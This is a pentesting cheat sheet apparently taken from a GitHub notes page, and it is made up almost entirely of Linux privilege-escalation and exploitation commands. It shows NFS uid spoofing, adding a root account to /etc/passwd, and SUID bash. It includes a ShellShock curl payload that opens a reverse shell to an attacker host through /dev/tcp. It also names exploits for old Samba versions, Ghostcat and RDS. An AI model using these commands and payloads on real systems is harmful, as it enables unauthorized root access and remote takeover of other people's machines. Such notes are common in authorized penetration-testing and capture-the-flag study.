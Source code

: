 [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt 1234 <password>
# openssl passwd -1 -salt 1234 test1234
# $1$1234$LedaKjyvU08i2tNM5HGSg.
# create new user
# echo "test01:\$1\$1234\$LedaKjyvU08i2tNM5HGSg.:0:0:root:/root:/bin/bash" >> /etc/passwd
# su test01
```

ShellShock

```shell
# recon
nikto -url http://<target ip>/cgi-bin
nmap <target ip> -p <target port> --script=http-shellshock --script-args uri=/cgi-bin/home.cgi
# reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1; echo zzzz;'" http://<target ip>/cgi-bin/home.cgi | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

[Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)

```
restricted: cannot specify `/' in command names
```

#### Chrome

--remote-debugging-port

```
chrome://inspect/
```

[CVE-2012-0056] memodipper

```
https://www.exploit-db.com/exploits/18411
```

```
exploit/linux/samba/trans2open
```

#### Tasks

```shell
chmod +s /bin/bash
bash -p
```

#### old machine

- Samba versions 2.2.0 to 2.2.8

```
trans2open
```

- Samba 3.0.24

```
https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2010-0926_smb_symlink_traversal
```

- Compiling the exploit binary sometimes has to be done on the same version of the machine.

- CVE-2020-1938 Ghostcat

- [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) RDS privilege escalation exploit